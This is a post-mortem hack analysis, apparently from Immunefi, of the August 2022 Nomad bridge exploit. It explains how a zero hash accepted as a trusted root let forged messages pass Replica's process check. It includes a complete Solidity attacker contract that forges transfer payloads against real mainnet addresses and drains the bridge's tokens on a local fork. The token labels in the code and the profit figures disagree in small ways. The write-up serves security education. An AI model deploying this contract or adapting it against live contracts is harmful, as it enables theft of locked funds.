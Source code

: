 # OnChain Transaction Debugging: 7. Hack Analysis: Nomad Bridge, August 2022

### Author: [gmhacker.eth](https://twitter.com/realgmhacker)

## Introduction
The Nomad bridge was hacked on August 1st, 2022, and $190m of locked funds were drained. After one attacker first managed to exploit the vulnerability and struck gold, other dark forest travelers jumped to replay the exploit in what eventually became a colossal, “crowdsourced” hack.

A routine upgrade on the implementation of one of Nomad’s proxy contracts marked a zero hash value as a trusted root, which allowed messages to get automatically proved. The hacker leveraged this vulnerability to spoof the bridge contract and trick it to unlock funds.

That first successful transaction alone, which can be seen [here](https://dashboard.tenderly.co/tx/mainnet/0xa5fe9d044e4f3e5aa5bc4c0709333cd2190cba0f4e7f16bcf73f49f83e4a5460), drained 100 WBTC from the bridge–around $2.3m at the time. There was no need for a flashloan or other complex interaction with another DeFi protocol. The attack simply called a function on the contract with the right message input, and the attacker continued throwing blows at the protocol’s liquidity.

Unfortunately, the simple and replayable nature of the transaction led others to collect some of the illicit profit. As [Rekt News](https://rekt.news/nomad-rekt/) put it, “Staying true to DeFi Principles, this hack was permissionless — anyone could join in.”

In this article, we will be analyzing the exploited vulnerability in the Nomad bridge’s Replica contract, and then we’ll create our own version of the attack to drain all the liquidity in one transaction, testing it against a local fork. You can check the full PoC [here](https://github.com/immunefi-team/hack-analysis-pocs/tree/main/src/nomad-august-2022).

This article was written by [gmhacker.eth](https://twitter.com/realgmhacker), an Immunefi Smart Contract Triager.

## Background

Nomad is a cross-chain communication protocol allowing, among other things, bridging of tokens between Ethereum, Moonbeam and other chains. Messages sent to Nomad contracts are verified and transported to other chains through off-chain agents, following an optimistic verification mechanism.

Like most cross-chain bridging protocols, Nomad’s token bridge is able to transfer value through different chains by a process of locking tokens on one side and minting representatives on the other. Because those representative tokens can eventually be burned to unlock the original funds (i.e. bridging back to the token’s native chain), they function as IOUs and have the same economic value as the original ERC-20s. That aspect of bridges in general leads to a big accumulation of funds inside a complex smart contract, rendering it a much-desired target for hackers.

<div align=center>
<img src="https://user-images.githubusercontent.com/107821372/217752487-9580592c-98ed-4690-b330-d211d795d276.png" alt="Cover" width="80%"/>
</div>

Locking & minting process, src: [MakerDAO’s blog](https://blog.makerdao.com/what-are-blockchain-bridges-and-why-are-they-important-for-defi/)

In Nomad’s case, a contract called `Replica`, which is deployed on all supported chains, is responsible for validating messages in a Merkle tree structure. Other contracts in the protocol rely on this for authentication of inbound messages. Once a message is validated, it is stored in the Merkle tree, generating a new committed tree root which gets confirmed to be processed.

## Root Cause

Having a rough understanding of what the Nomad bridge is, we can dive into the actual smart contract code to explore the root cause vulnerability that was leveraged in the various transactions of the August 2022 hack. To do that, we need to go deeper into the `Replica` contract.

```
   function process(bytes memory _message) public returns (bool _success) {
       // ensure message was meant for this domain
       bytes29 _m = _message.ref(0);
       require(_m.destination() == localDomain, "!destination");
       // ensure message has been proven
       bytes32 _messageHash = _m.keccak();
       require(acceptableRoot(messages[_messageHash]), "!proven");
       // check re-entrancy guard
       require(entered == 1, "!reentrant");
       entered = 0;
       // update message status as processed
       messages[_messageHash] = LEGACY_STATUS_PROCESSED;
       // call handle function
       IMessageRecipient(_m.recipientAddress()).handle(
           _m.origin(),
           _m.nonce(),
           _m.sender(),
           _m.body().clone()
       );
       // emit process results
       emit Process(_messageHash, true, "");
       // reset re-entrancy guard
       entered = 1;
       // return true
       return true;
   }
```
<div align=center>

Snippet 1: `process` function on Replica.sol, view [raw](https://gist.github.com/gists-immunefi/f8ef00be9e1c5dd4d879a418966191e0#file-nomad-hack-analysis-1-sol).

</div>

The `process` [function](https://etherscan.io/address/0xb92336759618f55bd0f8313bd843604592e27bd8#code%23F1%23L179) in the `Replica` contract is responsible for dispatching a message to its final recipient. This will only be successful if the input message has already been proven, which means that the message has already been added to the Merkle tree, leading to an accepted and trustworthy root. That check is done against the message hash, using the `acceptableRoot` view function, which will read from the confirmed roots mapping.

```
   function initialize(
       uint32 _remoteDomain,
       address _updater,
       bytes32 _committedRoot,
       uint256 _optimisticSeconds
   ) public initializer {
       __NomadBase_initialize(_updater);
       // set storage variables
       entered = 1;
       remoteDomain = _remoteDomain;
       committedRoot = _committedRoot;
       // pre-approve the committed root.
       confirmAt[_committedRoot] = 1;
       _setOptimisticTimeout(_optimisticSeconds);
   }
```
<div align=center>

Snippet 2: `initialize` function in Replica.sol, view [raw](https://gist.github.com/gists-immunefi/4792c4bb10d3f73648b4b0f86e564ac9#file-nomad-hack-analysis-2-sol).

</div>

When an upgrade happens on the implementation of a given proxy contract, the upgrading logic may execute a one-time-call initialization function. This function will set some initial state values. In particular, a routine [April 21st upgrade](https://openchain.xyz/trace/ethereum/0x99662dacfb4b963479b159fc43c2b4d048562104fe154a4d0c2519ada72e50bf) was made, and the value 0x00 was passed as the pre-approved committed root, which gets stored into the confirmAt mapping. This is where the vulnerability appeared.

Going back to the `process()` function, we see that we rely on checking for a message hash on the `messages` mapping. That mapping is responsible for marking messages as processed, so that attackers cannot replay the same message.

A particular aspect of an EVM smart contract storage is that all slots are virtually initialized as zero values, which means that if one reads an unused slot in storage, it won’t raise an exception but rather it will return 0x00. A corollary to this is that every unused key on a Solidity mapping will return 0x00. Following that logic, whenever the message hash is not present on the `messages` mapping, 0x00 will be returned, and that will be passed to the `acceptableRoot` function, which in turn will return true given that 0x00 has been set as a trusted root. The message will then be marked as processed, but anybody can simply change the message to create a new unused one and resubmit it.

The input message encodes various different parameters in a given format. Among those, for a message to unlock funds from the bridge, there’s the recipient address. So after the first attacker executed a [successful transaction](https://dashboard.tenderly.co/tx/mainnet/0xa5fe9d044e4f3e5aa5bc4c0709333cd2190cba0f4e7f16bcf73f49f83e4a5460), anyone that knew how to decode the message format could simply change the recipient address and replay the attack transaction, this time with a different message that would give profit to the new address.

## Proof of Concept

Now that we understand the vulnerability that compromised the Nomad protocol, we can formulate our own proof of concept (PoC). We will craft specific messages to call the `process` function in `Replica` function once for each specific token we want to drain, leading to protocol insolvency in just one single transaction.

We’ll start by selecting an RPC provider with archive access. For this demonstration, we will be using [the free public RPC aggregator](https://www.ankr.com/rpc/eth/) provided by Ankr. We select the block number 15259100 as our fork block, 1 block before the first hack transaction.

Our PoC needs to run through a number of steps on a single transaction to be successful. Here is a high-level overview of what we will be implementing in our attack PoC:

1. Select a given ERC-20 token and check the balance of the Nomad ERC-20 bridge contract.
2. Generate a message payload with the right parameters to unlock funds, among which our attacker address as the recipient and the full token balance as the amount of funds to be unlocked.
3. Call the vulnerable process function, which will lead to a transfer of tokens to the recipient address.
4. Loop through various ERC-20 tokens with a relevant presence on the bridge’s balance to drain those funds in the same fashion.

Let’s code one step at a time, and eventually look at how the entire PoC looks. We will be using Foundry.

## The Attack

```
pragma solidity ^0.8.13;
 
import "@openzeppelin/token/ERC20/ERC20.sol";
 
interface IReplica {
   function process(bytes memory _message) external returns (bool _success);
}
 
contract Attacker {
   address constant REPLICA = 0x5D94309E5a0090b165FA4181519701637B6DAEBA;
   address constant ERC20_BRIDGE = 0x88A69B4E698A4B090DF6CF5Bd7B2D47325Ad30A3;
 
   // tokens
   address [] public tokens = [
       0x2260FAC5E5542a773Aa44fBCfeDf7C193bc2C599, // WBTC
       0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2, // WETH
       0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48, // USDC
       0xdAC17F958D2ee523a2206206994597C13D831ec7, // USDT
       0x6B175474E89094C44Da98b954EedeAC495271d0F, // DAI
       0x3432B6A60D23Ca0dFCa7761B7ab56459D9C964D0, // FRAX
       0xD417144312DbF50465b1C641d016962017Ef6240  // CQT
   ];
 
   function attack() external {
       for (uint i = 0; i < tokens.length; i++) {
           address token = tokens[i];
           uint256 amount_bridge = IERC20(token).balanceOf(ERC20_BRIDGE);
 
           bytes memory payload = genPayload(msg.sender, token, amount_bridge);
           bool success = IReplica(REPLICA).process(payload);
           require(success, "Failed to process the payload");
       }
   }
 
   function genPayload(
       address recipient,
       address token,
       uint256 amount
   ) internal pure returns (bytes memory) {}
}
```
<div align=center>

Snippet 3: The start of our attack contract, view [raw](https://gist.github.com/gists-immunefi/4305df38623ddcaa11812a9c186c73ac#file-nomad-hack-analysis-3-sol).

</div>

Let’s begin by creating our Attacker contract. The entry point to our contract will be the `attack` function, which is as simple as a for loop going through various different token addresses. We check `ERC20_BRIDGE`’s balance of the specific token that we’re dealing with. This is the address of the Nomad ERC-20 bridge contract, which holds the locked funds on Ethereum.

After that, the malicious message payload is generated. The parameters that will change in each loop iteration are the token address and the amount of funds to be transferred. The generated message will be the input to the `IReplica.process` function. As we already established, this function will forward the encoded message to the right end contract on the Nomad protocol to bring the unlock and transferring request to fruition, effectively tricking the bridge logic.

```

contract Attacker {
   address constant BRIDGE_ROUTER = 0xD3dfD3eDe74E0DCEBC1AA685e151332857efCe2d;
  
   // Nomad domain IDs
   uint32 constant ETHEREUM = 0x657468;   // "eth"
   uint32 constant MOONBEAM = 0x6265616d; // "beam"
 
   function genPayload(
       address recipient,
       address token,
       uint256 amount
   ) internal pure returns (bytes memory payload) {
       payload = abi.encodePacked(
           MOONBEAM,                           // Home chain domain
           uint256(uint160(BRIDGE_ROUTER)),    // Sender: bridge
           uint32(0),                          // Dst nonce
           ETHEREUM,                           // Dst chain domain
           uint256(uint160(ERC20_BRIDGE)),     // Recipient (Nomad ERC20 bridge)
           ETHEREUM,                           // Token domain
           uint256(uint160(token)),            // token id (e.g. WBTC)
           uint8(0x3),                         // Type - transfer
           uint256(uint160(recipient)),        // Recipient of the transfer
           uint256(amount),                    // Amount
           uint256(0)                          // Optional: Token details hash
                                               // keccak256(                 
                                               //     abi.encodePacked(
                                               //         bytes(tokenName).length,
                                               //         tokenName,
                                               //         bytes(tokenSymbol).length,
                                               //         tokenSymbol,
                                               //         tokenDecimals
                                               //     )
                                               // )
       );
   }
}
```
<div align=center>

Snippet 4: Generate the malicious message with the right format and parameters, view [raw](https://gist.github.com/gists-immunefi/2a5fbe2e6034dd30534bdd4433b52a29#file-nomad-hack-analysis-4-sol).

</div>

The generated message needs to be encoded with various different parameters, so that it gets properly unpacked by the protocol. Importantly, we need to specify the forwarding path of the message — the bridge router and the ERC-20 bridge addresses. We must flag the message as a token transfer, hence the `0x3` value as the type.

Finally, we have to specify the parameters that will bring the profit to us–the right token address, the amount to be transferred, and the recipient of that transfer. As we’ve seen already, this will surely create a brand new original message that will never have been processed by the `Replica` contract, which means that it will actually be seen as valid, according to our previous explanation.

Quite impressively, this completes the entire exploit logic. If we had some Foundry logs, our PoC still amounts to only 87 lines of code.

If we run this PoC against the forked block number, we will get the following profits:

* 1,028 WBTC
* 22,876 WETH
* 87,459,362 USDC
* 8,625,217 USDT
* 4,533,633 DAI
* 119,088 FXS
113,403,733 CQT

## Conclusion

The Nomad Bridge exploit was one of the biggest hacks of 2022. The attack stresses the importance of security throughout the entire protocol. In this particular case, we’ve learned how a single routine upgrade on a proxy implementation can cause a critical vulnerability and compromise all locked funds. Furthermore, during development one needs to be careful regarding the 0x00 default values on storage slots, specially in logic involving mappings. It’s also good to have some unit testing setup for such common values that might lead to vulnerabilities.

It should be noted that some scavenger accounts that drained portions of the funds returned them to the protocol. There are [plans to relaunch the bridge](https://medium.com/nomad-xyz-blog/nomad-bridge-relaunch-guide-3a4ef6624f90), and the returned assets will be distributed to users through pro-rata shares of those recovered funds. Any stolen funds can be returned to Nomad’s [recovery wallet](https://etherscan.io/address/0x94a84433101a10aeda762968f6995c574d1bf154).

As previously pointed out, this PoC actually enhances the hack and drains all TVL in one transaction. It is a simpler attack than what actually took place in reality. This is what our entire PoC looks like, with the addition of some helpful Foundry logs:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;
 
import "@openzeppelin/token/ERC20/ERC20.sol";
import "forge-std/console.sol";
 
interface IReplica {
   function process(bytes memory _message) external returns (bool _success);
}
 
contract Attacker {
   address constant REPLICA = 0x5D94309E5a0090b165FA4181519701637B6DAEBA;
   address constant BRIDGE_ROUTER = 0xD3dfD3eDe74E0DCEBC1AA685e151332857efCe2d;
   address constant ERC20_BRIDGE = 0x88A69B4E698A4B090DF6CF5Bd7B2D47325Ad30A3;
  
   // Nomad domain IDs
   uint32 constant ETHEREUM = 0x657468;   // "eth"
   uint32 constant MOONBEAM = 0x6265616d; // "beam"
 
   // tokens
   address [] public tokens = [
       0x2260FAC5E5542a773Aa44fBCfeDf7C193bc2C599, // WBTC
       0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2, // WETH
       0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48, // USDC
       0xdAC17F958D2ee523a2206206994597C13D831ec7, // USDT
       0x6B175474E89094C44Da98b954EedeAC495271d0F, // DAI
       0x3432B6A60D23Ca0dFCa7761B7ab56459D9C964D0, // FRAX
       0xD417144312DbF50465b1C641d016962017Ef6240  // CQT
   ];
 
   function attack() external {
       for (uint i = 0; i < tokens.length; i++) {
           address token = tokens[i];
           uint256 amount_bridge = ERC20(token).balanceOf(ERC20_BRIDGE);
 
           console.log(
               "[*] Stealing",
               amount_bridge / 10**ERC20(token).decimals(),
               ERC20(token).symbol()
           );
           console.log(
               "    Attacker balance before:",
               ERC20(token).balanceOf(msg.sender)
           );
 
           // Generate the payload with all of the tokens stored on the bridge
           bytes memory payload = genPayload(msg.sender, token, amount_bridge);
 
           bool success = IReplica(REPLICA).process(payload);
           require(success, "Failed to process the payload");
 
           console.log(
               "    Attacker balance after: ",
               IERC20(token).balanceOf(msg.sender) / 10**ERC20(token).decimals()
           );
       }
   }
 
   function genPayload(
       address recipient,
       address token,
       uint256 amount
   ) internal pure returns (bytes memory payload) {
       payload = abi.encodePacked(
           MOONBEAM,                           // Home chain domain
           uint256(uint160(BRIDGE_ROUTER)),    // Sender: bridge
           uint32(0),                          // Dst nonce
           ETHEREUM,                           // Dst chain domain
           uint256(uint160(ERC20_BRIDGE)),     // Recipient (Nomad ERC20 bridge)
           ETHEREUM,                           // Token domain
           uint256(uint160(token)),          // token id (e.g. WBTC)
           uint8(0x3),                         // Type - transfer
           uint256(uint160(recipient)),      // Recipient of the transfer
           uint256(amount),                  // Amount
           uint256(0)                          // Optional: Token details hash
                                               // keccak256(                 
                                               //     abi.encodePacked(
                                               //         bytes(tokenName).length,
                                               //         tokenName,
                                               //         bytes(tokenSymbol).length,
                                               //         tokenSymbol,
                                               //         tokenDecimals
                                               //     )
                                               // )
       );
   }
}
```
<div align=center>

Snippet 5: all code, view [raw](https://gist.github.com/gists-immunefi/2bdffe6f9683c9b3ab810e1fb7fe4aff#file-nomad-hack-analysis-5-sol).

</div>

